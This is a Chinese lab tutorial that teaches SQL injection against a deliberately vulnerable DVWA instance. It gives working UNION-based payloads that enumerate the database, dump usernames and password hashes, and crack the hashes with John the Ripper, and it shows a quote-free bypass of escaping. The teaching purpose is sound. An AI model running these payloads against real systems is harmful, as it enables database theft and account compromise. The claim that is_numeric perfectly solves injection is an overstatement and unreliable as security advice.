# SQL 注入

## 1. 课程说明

本课程为动手实验教程，为了能说清楚实验中的一些操作会加入理论内容，也会精选最值得读的文章推荐给你，在动手实践的同时扎实理论基础。

**注意：实验用的云主机因为配置成本较高，会限制次数，每个实验不超过6次**

## 2. 学习方法

实验楼的 Kali 系列课程包含五个训练营，本训练营主要讲述 Web 应用攻击方法。课程包含20个实验，每个实验都提供详细的步骤和截图。适用于有一定 Linux 系统基础，想快速上手 Kali 渗透测试的同学。

学习方法是多实践，多提问。启动实验后按照实验步骤逐步操作，同时理解每一步的详细内容。

如果实验开始部分有推荐阅读的材料，请务必先阅读后再继续实验，理论知识是实践必要的基础。

## 3. 本节内容简介

本实验中我们初步接触 Kali Linux 和渗透测试的概念。需要依次完成下面几项任务：

- SQL 注入简介
- SQL 注入初试
- SQL 注入防范

## 4. 推荐阅读

本节实验推荐阅读下述内容：

1. [Mysql 基础](https://www.shiyanlou.com/courses/28)

## 5. SQL 注入简介

SQL 注入又称为 SQL Injection，又会简写为 SQLi。

那什么是 SQL 注入？

SQL 注入通常出现在网站的页面中有提交表单之处，而这些表单的提交会涉及到数据库的查询等一些操作，此时攻击者使用 SQL 的一些命令上的技巧来获取到敏感的数据，甚至是获取到 webshell。这样利用程序的漏洞来执行恶意的 SQL 语句便是 SQL 注入了。

SQL 注入通常情况下又会被人们分为：

- SQL 注入
- SQL 盲注

其实他们的攻击方式并没有任何的区别，只是因为不同的场景来区分他们，在安全性能很低的情况下注入错误的 SQL 语句会有错误信息的提示，能够帮助我们更快的定位，更高效的发现问题之处，如此难度较低的攻击方式称为 SQL 注入，也称之为回显式注入。反之，在注入的时候没有任何信息的提示，正确则有消息返回，错误则没有任何信息回馈，这样的方式称之为 SQL 盲注（非常形象，因为没有任何信息的反馈，基本靠经验与猜想或者自动化工具）

由此我们 便知晓什么是 SQL 注入了，其实就是利用 SQL 语句获取数据库敏感信息的一种方式而已，所以在学习之前我们需要熟悉 SQL 语句的使用。

## 6. SQL 注入初试

### 6.1 环境启动

与之前的实验相同，我们首先启动靶机、打开 dvwa，然后将实验的安全等级降到最低：

在实验桌面中，双击 Xfce 终端，打开终端：


使用 `sudo virsh start Metasploitable2` 命令即可启动我们的靶机系统虚拟机：


大约需要四分钟，待得虚拟机完全启动之后我们打开桌面上的 Firefox：


访问我们的靶机系统所使用的 IP 地址`192.168.122.102`：


正常的启动靶机系统之后，我们访问其 IP 地址可以得到这样的一个页面。

点击 DVMA 我们便可进入到 DVMA 的登陆页面，默认的登陆用户与密码是 admin 与 password，登陆之后便会进入这样的页面：


为了能够进行最简单的攻击，我们会把安全默认调制最低，首先进入安全模式的调整页面：


然后调整安全的 level 到 low：



当看到页面的下方 Level 的显示变化后，说明修改成功了：


### 6.2 SQL 注入

配置好我们的实验环境之后，我们便进入 DVWA 为我们所提供的 SQL Injection 的环境：


我们可以看到这是一个通过 User ID 来查询用户信息的一个环境，我们可以首先来简单尝试一下它的功能：

我们在输入框中输入 1，然后提交我们可以得到这样的结果：


可以看到就是一个简单的通过 ID 编号查询到用户的姓与名。

接着我们在数据框中输入 `'` 一个单引号，提交之后我们发现会跳转到一个错误页面，它提示我们这里的后台使用 MySQL，并且这样的查询语句语法有误。

虽然我们在前面就介绍了 DVWA 是使用的 PHP + MySQL 的框架，但是若是在一个陌生的系统中获取到该消息还是有很大作用的。

并且我们发现这里是一个可注入的点，并且还是回显式。

通过 URL 左边的向左箭头我们回返到上一页。

我们尝试输入这样的语句：

```
' or 1=1#
```



我们可以看到返回了所有用户的姓名。

这是为什么呢？

在不看源代码的情况下，我们可以做这样的猜想其查询语句：

```sql
SELECT First_name, surname FROM 某张表 WHERE id = '从页面上获取到的变量值'
```

因为从返回结果我们得到了 First name 与 surname 两个值，所以应该查询的是这两个表项，而要查询表项必须指定查询哪一张表，从内容来看应该是用户表，最后它是通过我们输入的 ID 值来查询返回结果的，那么在 where 限定的时候应该是使用的 id 表项。

在上面我们的尝试中，当我们输入 1 时，查询语句变成这样：

```sql
SELECT First_name, surname FROM 某张表 WHERE id = '1'
```

这样的查询语句没有任何的错误，所以能够正常的为我们返回结果，而当我们输入的是 `'` 单引号的时候，查询语句变成了这样：

```sql
SELECT First_name, surname FROM 某张表 WHERE id = '''
```

这样的语句有语法错误，前两个单引号匹配，剩下一个单身的单引号没有任何作用，这样的查询语句 MySQL 是不认可的，所以给我们返回了错误。

当我们输入 `' or 1=1#` 这样的语句时，我们的查询语句将变成：

```sql
SELECT First_name, surname FROM 某张表 WHERE id = '' or 1=1#'
```

我们输入的第一个单引号与原本查询语句的单引号配对，形成一个闭合，因为空查询在执行的使用不会判断为真，所以紧接着我们使用了 `or`，来多条件查询，只要有一个条件查询的结果为真就会为我们返回结果，如何使得无论条件怎样判断结果都为真？使用 `1=1` 这样必然成立的条件便是我们的选择。

我们还注意到原本的查询语句后面还有一个单引号，我们使用 `#` 来注释掉后面的内容，如此便解决掉了最后的单引号。

这样该语句在执行的时候就是从某张表中查询 first name 与 surname 两个表项，当 1=1 的条件为真的时候便返回结果，这样 MySQL 去遍历该表的时候所有的表项判断条件都必然成立，所以就会把表中的这两个表项的所有数据都输出。

就这样我们获取到了更多的信息，在 MySQL 中注释的方式有三种：

- `#`
- `-- `(注意破折号后面是有一个空格的，不要漏掉了，例如 `-- 这是注释`)
- `/*....*/`

大家可以试试破折号的方式。

不仅如此我们还能通过 SQL 语句来获取到当前 MySQL 的具体版本：

```
' or 1=1 union select null,version() #
```

我们可以看到这样的结果;


从结果中我们看到了在最后一条中多了一条版本信息，这是为什么呢？我们将我们的语句套入我们猜测的查询语句中：

```sql
SELECT First_name, surname FROM 某张表 WHERE id = '' or 1=1 union select null,version() #'
```

前面部分与上次的一样，单引号的匹配，`or 1=1` 的多条件查询，使用了 union 关键字，union 可以把来自多个 select 语句的结果组合在一起，并且当有重复的结果时不会显示，自动剔除掉。

系统自带了一个查询版本的函数 version()，通过它我们便能得知 MySQL 的版本，因为第一个 select 语句中查询了两个表项，所以这个语句需要相对应，所以在 version() 之前添加了一个 null，这样我们就获取到了 MySQL 的版本。

获取到版本信息可以让我们根据版本的不同而调整 SQL 注入的语句，并且我们还可以利用老版本的漏洞使用 MSF 等工具攻击。

如法炮制我们还可以查询当前执行语句的 MySQL 登陆用户：

```sql
SELECT First_name, surname FROM 某张表 WHERE id = '' or 1=1 union select null,user() #'
```


我们使用的 root 用户登陆，root 账户拥有所有权限。

同样我们我还可看到数据库中有哪些用户：

```
' or 1=1 union select null,User from mysql.user #
```


类似的用户信息获取扩展我们不再意义列举了。

我们还可以查看到当前使用的数据库名称：

```
' or 1=1 union select null,database() #
```



我们还可以查看所有的表的名称：

```
' or 1=1 union select null, table_name from information_schema.tables #
```



根据上一步我们知道了我们数据库的名称，我们可以只查看 dvwa 数据库的表有哪些：

```
' or 1=1 union select null, table_name from information_schema.tables where table_schema='dvwa' #
```



通过上述的结果我们可以了解到，数据库中所有表的名称，通过表名我们还可以通过这样的方式查看所有的表项：

```
' or 1=1 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #
```



这其中 concat() 是 MySQL 中一个很重要函数，该函数用于将多个字符串连接成一个字符串，也就是将 table_name、column_name 一同显示出来，这里的 0x0a 表示的是 `/n` 换行符，这样把表名与各个表项分开，不至于让我们分辨不出，更人性化一点。

看到这里我们便可把我们刚刚猜测的查询语句完善一番了，因为我们知道了表名，以及表项：

```sql
SELECT first_name,last_name FROM users WHERE user_id = '获取到的输入内容'
```

我们可以通过查看原来来证实我们的猜想是否正确：



既然都能获取到表中有所有表项的信息了，我们能否将每个表项的内容也一同显示出来呢？

```
' or 1=1 union select null,concat(user_id,0x0a,first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #
```



从结果中我们看到的密码都是随机的数字与字母组合而成，而我们在登陆的时候，如 admin 密码并不是这样，很明显，这是密码在存储之前加过一次密来增加安全性，在 MySQL 中有单向加密与双向加密，其中单向的就 md5 的方式最为常用，双向的 ENCODE()、DENCODE() 较为常用。

较为简短的密码是很好破解的，我们可以尝试一番，首先我们将所有用户的 user 与 password 都复制下来保存在一个文本中（在 kali 中）：

```
vim password.txt
```

以这样的格式保存：



然后使用 john 来破解：

```
john --format=raw-MD5 password.txt
```



我们可以看到所有用户的默认密码我们都破解出来了，我们可以是这样这些账户与密码登陆一下，验证是否正确。

> 在 Kali 中提供了一个免费开源的密码破解工具：john。它的全称是 John the Ripper，是一个快速的密码破解工具，用于在已知密文的情况下破解出明文，支持目前大多数的加密算法，如DES、MD5等。

> John the Ripper 同时支持字典破解与直接暴力破解两种方式，若是使用字典的方式默认是使用的是自带的字典，位于 `/usr/share/john/password.lst` 中。

这就是简单的手工的 SQL 注入的过程，重点在于如何找到可注入的点，与找到注入点之后我们需要从哪个方向层层深入。

## 7. SQL 注入防范

当我们将 Security level 调整到 MeMedium 的时候，我们发现刚刚的放法似乎没有作用了，例如我们输入 `' or 1=1 #` 会直接跳转页面说我们的语法错误，大家可以试试。

我们查看源代码，似乎与之前的没有太大的区别，但是我们注意看：



在获取到我们输入的内容之后并没有像 low 中的代码一样直接将数据传递给查询语句的变量，而是先交给了 mysql_real_escape_string() 处理。

mysql_real_escape_string() 函数的作用是将 SQL 字符串语句中的所有特殊字符串都转义，所以我们上述方法中的 `'` 单引号被转义了，单引号就不匹配了，所以就抛出了语法错误。

既然如此那么破解的方法就是不用单引号，直接使用这样的查询语句：

```
1 or 1=1 
```

我们看到又可以再次看到结果了：



这说明我们只要不用受影响的特殊符号就不会出问题，例如 `'`单引号，`\`下划线这一类。

我们还可以继续尝试这样的命令：

```
1 or 1=1 union select null,concat(user_id,0x0a,first_name,0x0a,last_name,0x0a,user,0x0a,password) from users
```

可以看到结果依然是没有问题的，肯定是有防范的措施，我们将 level 调高志 high 我们再试试。

我们会看到一点反应都没有，我们输入 `'` 试试，会发现没有任何消息，连语法错误的消息都没有反馈出来。

我们可以查看一下源代码，并于 mdium 的代码相比较：



其中全关键的便是判断获取到的字符串是否为数字或数字字符串的 is_numeric()。因为执行 SQL 语句不可能用纯数字实现的，所以这样就完美的解决了 SQL 注入的问题。


## 11. 总结

本节实验中我们学习了以下内容，任何不清楚的地方欢迎到[实验楼问答](https://www.shiyanlou.com/questions)与我们交流：

- SQL 注入简介
- SQL 注入初试
- SQL 注入防范

请务必保证自己能够动手完成整个实验，只看文字很简单，真正操作的时候会遇到各种各样的问题，解决问题的过程才是收获的过程。

## 12. 作业

1. 使用 Mutillidae 环境实现一次 SQL 注入的实验内容